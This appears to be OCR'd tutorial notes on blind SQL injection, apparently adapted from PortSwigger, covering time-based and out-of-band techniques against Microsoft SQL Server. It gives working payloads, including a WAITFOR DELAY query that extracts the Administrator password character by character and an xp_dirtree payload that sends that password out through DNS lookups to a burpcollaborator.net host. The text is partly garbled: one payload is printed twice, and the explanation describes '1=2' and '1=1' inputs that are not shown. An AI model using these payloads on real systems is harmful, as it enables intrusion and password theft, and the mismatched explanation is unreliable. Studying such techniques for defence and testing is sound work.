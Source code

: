 ```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

- The first of these inputs will not trigger a delay, because the condition `1=2` is false. The second input will trigger a delay of 10 seconds, because the condition `1=1` is true.
- Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:
```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

---
### Exploiting blind SQL injection using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques
- The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query
- In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control
- A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.
- The techniques for triggering a DNS query are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain: ``'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`` 
- Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example: ``'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--``
- This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This will result in a DNS lookup. Out-of-band (OAST) techniques are an extremely powerful way to detect and exploit blind SQL injection, due to the highly likelihood of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.

---

### SQL Injection Examples

- [Retrieving hidden data](https://portswigger.net/web-security/sql-injection#retrieving-hidden-data), where you can modify a SQL query to return additional results.
-  [Subverting application logic](https://portswigger.net/web-security/sql-injection#subverting-application-logic), where you can change a query to interfere with the application's logic.
-  [UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks), where you can retrieve data from different database tables.
- [Examining the database](https://portswigger.net/web-security/sql-injection/examining-the-database), where you can extract information about the version and structure of the database.
-  [Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind), where the results of a query you control are not returned in the application's responses.
